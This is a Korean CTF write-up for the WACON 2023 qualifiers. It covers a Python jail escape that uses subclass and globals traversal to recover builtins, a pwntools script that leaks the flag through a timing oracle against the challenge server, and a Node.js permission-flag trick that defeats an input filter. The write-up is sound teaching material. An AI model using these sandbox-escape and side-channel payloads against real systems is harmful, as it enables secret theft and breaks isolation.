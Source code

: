 # WACON 2023 Prequal Writeup

## ScavengerHunt [misc]

Pyjail 문제에 seccomp 필터를 얹은 문제이다. 허용되는 syscall은 `exit` 등 파이썬 인터프리터가 종료될 때 사용하는 것이나 `brk` 밖에 없기 때문에 출력이고 뭐고 할 수 없다. 플래그는 `secret.py`라는 모듈에 있는 엄청 긴 변수에 저장되어 있다.

우선 플래그를 출력하는 것은 둘째치고, value를 가져오는것부터 해보자. 엄청 긴 변수의 이름도 blind sqli 마냥 가져올 수도 있겠지만, 변수 값에 접근할 수 있기 때문에 굳이 그럴 필요는 없을 것이다. `vars` 함수를 사용해 `secret` 모듈에 있는 변수들을 모두 가져온 다음, 값이 `WACON2023`으로 시작하는 것을 뽑으면 된다. 일반적인 상황에서는 이렇게 코딩했을 것이다.

```python
list(filter(lambda s: str(s).startswith("WACON2023"), vars(__import__("secret")).values()))[0]
```

하지만 이 문제에서는 builtin을 다 날려놓았기 때문에, 일반적인 pyjail trick을 사용해 우회해야 한다.

```python
[a:=().__class__.__base__.__subclasses__()[-1].__init__.__globals__][0]["__builtins__"]["list"](a["__builtins__"]["filter"](lambda s: ().__class__.__base__.__subclasses__()[-1].__init__.__globals__["__builtins__"]["str"](s).startswith("WACON2023"),a["__builtins__"]["vars"](a["__builtins__"]["__import__"]("secret")).values()))[0]
```

정말 안타깝게도 `lambda` 내부에서는 walrus 연산자로 생성한 변수가 capture되지 않는지, 코드가 좀 길어졌다.

이제 이 값을 어떻게든 출력해야 한다. exit code를 알 수 있는 상황이라면 맘편하게 exit할수 있겠지만, `nc` 환경이기에 알 방법이 없다. Blind SQL injection마냥, 주어진 인덱스의 문자를 다른 문자와 비교하여 작다면 무한 루프를, 그렇지 않다면 종료하는 코드를 실행시키는 방법을 사용하있다. 계속 connection을 수행하면서 코드 입력 후 2초 이상 걸린다면 무한 루프로 판정하고, 그렇지 않다면 바로 종료한 것으로 판정하여 플래그를 얻을 수 있었다. 구현한 코드는 다음과 같다.

```python
import string
import time

import pwn

CHARSET = list(sorted(string.printable))

prefix = input("prefix: ").strip()

while True:
    lo = 0
    hi = len(CHARSET)
    mid = 0
    while lo + 1 < hi:
        mid = (lo + hi) // 2
        ch = CHARSET[mid]
        flag_candidate = prefix + ch
        cmp_formatted = f'''[a:=().__class__.__base__.__subclasses__()[-1].__init__.__globals__][0]["__builtins__"]["list"](a["__builtins__"]["filter"](lambda s: ().__class__.__base__.__subclasses__()[-1].__init__.__globals__["__builtins__"]["str"](s).startswith("WACON2023"),a["__builtins__"]["vars"](a["__builtins__"]["__import__"]("secret")).values()))[0][{len(prefix)+10}] < "{ch}"'''
        payload_formatted = f"""[a:=().__class__.__base__.__subclasses__()[-1].__init__.__globals__][0]['__builtins__']['exec']('if {cmp_formatted}:\\n  while True: pass\\nelse: exit()')"""
        io = pwn.remote("1.234.10.246", "55555")
        io.recvline()

        pwn.info(f"Trying: {flag_candidate}")
        io.sendline(payload_formatted.encode())

        start = time.time()
        io.recvall(timeout=4)
        end = time.time()

        if end - start >= 2:
            pwn.info(f"LT")
            hi = mid
        else:
            pwn.info("GT")
            lo = mid

    prefix += CHARSET[lo]
    pwn.info(f"Current flag: {prefix}")
```

Flag: `WACON2023{91d9cec468a8b22b57c2b091beb64bcc}`

## Web? [misc]

Node.js v20의 채신기술 permission을 사용한 문제이다. `/calc` 엔드포인트로 `expr`과 `opt`를 POST해주면 `eval.js`를 `opt`를 `node` 바이너리에 CLI arg로 주고, `expr`을 실행시킨다.

문제는 `eval.js`에 필터가 있다는 점이다. `/[^\+|\*|-|%|\/|\d+|0-9]/`에 한 글자라도 걸리면 실행해 주지 않는데, 사실상 필터에 걸리지 않는 것으로는 할 수 있는 것이 없다. `eval.js`를 들여다보면 여기서 힌트를 얻을 수 있다.

```javascript
let filter = null;
try {
  	filter = fs.readFileSync("config").toString();
} catch {}
```

`config` 파일을 읽는데 실패한다면, 필터를 무력화할 수 있다. `main.js`에도 나와 있었지만, `--allow-fs-read` 플래그를 사용하면 읽을 수 있는 파일을 제한할 수 있다. 따라서 `opt`에 `--allow-fs-read=/flag.txt,/app/main.js`를 주고, 플래그를 읽어서 출력하는 코드를 주어서 실행하면 된다... 일 줄 알았으나 `opt`는 `/^--[A-Za-z|,|\/|\*|\=|\-]+$/`로 검사하기 때문에 그렇게 되지 않는다. `*`이 허용되기 때문에, `--allow-fs-read=/flag*,/app/main*`을 대신 사용하자.

Flag: `WACON2023{9fd79a4784869ba4873aee15c94f15281fa0e26c606e0da6f34f158f46f40889}`